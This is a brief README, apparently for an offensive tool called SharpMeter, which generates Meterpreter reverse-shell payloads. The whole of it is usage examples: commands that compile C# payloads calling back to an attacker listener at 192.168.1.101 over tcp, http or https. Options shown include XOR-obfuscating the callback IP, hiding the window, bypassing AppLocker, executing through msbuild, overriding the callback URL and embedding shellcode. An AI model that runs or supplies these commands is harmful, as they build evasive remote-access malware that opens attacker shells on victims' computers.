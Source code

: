 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example tcp
python SharpMeter.py 192.168.1.101 4444 compileme.cs tcp

# Example Close Window / XOR IP
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x

# Example AppLocker
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -a -x

# Example msbuild!
python SharpMeter.py 192.168.1.101 80 compileme.cs http -w -x -m

# Example Overide URL:
python SharpMeter.py 0.0.0.0 0 compileme.cs http -i
compileme.exe http://192.168.1.101:80/

python SharpMeter.py 0.0.0.0 0 compileme.cs tcp -i
compileme.exe 192.168.1.101:4444

# Example embed shellcode
python SharpMeter.py embed compileme.cs 0011333377....
